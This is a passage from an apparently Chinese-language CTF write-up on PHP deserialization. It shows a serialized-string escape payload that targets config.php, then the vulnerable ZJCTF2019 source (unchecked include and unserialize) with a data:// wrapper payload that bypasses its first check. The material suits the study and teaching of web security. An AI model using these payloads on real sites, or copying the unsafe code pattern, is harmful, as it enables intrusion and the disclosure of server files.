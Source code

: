    最终payload

   ```php
   wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
   ```

### 类型二--常规反序列化

[php(phar)反序列化漏洞及各种绕过姿势](https://pankas.top/2022/08/04/php(phar)%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%90%84%E7%A7%8D%E7%BB%95%E8%BF%87%E5%A7%BF%E5%8A%BF/)

#### ZJCTF2019 nizhuansiwei(代码审计+php反序列化)

1. 源码

    ```php
        <?php  
        $text = $_GET["text"];
        $file = $_GET["file"];
        $password = $_GET["password"];
        if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
            echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
            if(preg_match("/flag/",$file)){
                echo "Not now!";
                exit(); 
            }else{
                include($file);  //useless.php
                $password = unserialize($password);
                echo $password;
            }
        }
        else{
            highlight_file(__FILE__);
        }
        ?> 
    ```

2. 代码审计--get方式提交参数，text、file、password。
    1. 第一个需要绕过的地方
        `if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`
        - `file_get_contents($text,'r')==="welcome to the zjctf"`,从文件里读取字符串，还要和welcome to the zjctf相等。
  
            用到`data://`写入协议
            payload:`?text=data://text/plain,welcome to the zjctf`
    2. 序列化密码
        - 不可用flag.php访问,被过滤

        ```php
            if(preg_match("/flag/",$file)){
                echo "Not now!";
                exit(); 
            }else{
                include($file);  //useless.php
                $password = unserialize($password);
                echo $password;
            }
        ```

